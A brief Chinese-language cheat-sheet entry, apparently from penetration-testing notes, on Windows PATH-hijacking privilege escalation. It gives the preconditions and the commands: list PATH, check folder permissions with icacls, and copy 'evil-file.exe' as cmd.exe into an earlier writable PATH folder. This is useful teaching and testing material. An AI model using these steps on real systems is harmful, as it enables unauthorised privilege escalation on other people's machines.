 	要求：

	PATH 包含一个低权限的可写文件夹。
	可写文件夹位于包含合法二进制文件的文件夹之前。
	列出PATH环境变量的内容
	例子: C:\Program Files\nodejs\;C:\WINDOWS\system32
	PS >$env:Path

	查看目标文件夹的权限
	例子: BUILTIN\Users: GR,GW
	icacls.exe "C:\Program Files\nodejs\"

	将而已文件放在那个文件夹中
	copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
	在本例中“C:\Program Files\nodejs”在 PATH 变量上的“C:\WINDOWS\system32”之前，所以下次用户运行“cmd.exe”时，nodejs 文件夹中的恶意版本将运行，而不是 system32 文件夹中的合法运行。